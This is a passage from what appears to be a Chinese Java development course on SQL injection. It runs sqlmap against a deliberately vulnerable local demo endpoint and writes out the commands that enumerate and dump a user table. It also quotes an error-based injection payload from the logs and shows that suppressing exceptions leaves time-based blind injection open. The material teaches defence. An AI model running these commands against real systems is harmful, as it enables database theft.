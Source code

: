 使用 sqlmap 来探索这个接口：

python sqlmap.py -u http://localhost:45678/sqlinject/jdbcwrong --data name=test

一段时间后，sqlmap 给出了如下结果：

![img](https://learn.lianglianglee.com/%e4%b8%93%e6%a0%8f/Java%20%e4%b8%9a%e5%8a%a1%e5%bc%80%e5%8f%91%e5%b8%b8%e8%a7%81%e9%94%99%e8%af%af%20100%20%e4%be%8b/assets/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，仅需简单的三步，就可以直接导出整个用户表的内容了。

第一步，查询当前数据库：
python sqlmap.py -u http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db

可以得到当前数据库是 common_mistakes：

current database: 'common_mistakes'

第二步，查询数据库下的表：

python sqlmap.py -u http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"

可以看到其中有一个敏感表 userdata：

Database: common_mistakes [7 tables] +--------------------+ | user | | common_store | | hibernate_sequence | | m | | news | | r | | userdata | +--------------------+

第三步，查询 userdata 的数据：

python sqlmap.py -u http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump

你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：

Database: common_mistakes Table: userdata [2 entries] +----+-------+----------+ | id | name | password | +----+-------+----------+ | 1 | test1 | haha1 | | 2 | test2 | haha2 | +----+-------+----------+

在日志中可以看到，sqlmap 实现拖库的方式是，让 SQL 执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含 ID 为 2 的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

[13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(/*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)/*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'

既然是这样，我们就实现一个 ExceptionHandler 来屏蔽异常，看看能否解决注入问题：

@ExceptionHandler public void handle(HttpServletRequest req, HandlerMethod method, Exception ex) { log.warn(String.format("访问 %s -> %s 出现异常！", req.getRequestURI(), method.toString()), ex); }

重启程序后重新运行刚才的 sqlmap 命令，可以看到报错注入是没戏了，但使用时间盲注还是可以查询整个表的数据：
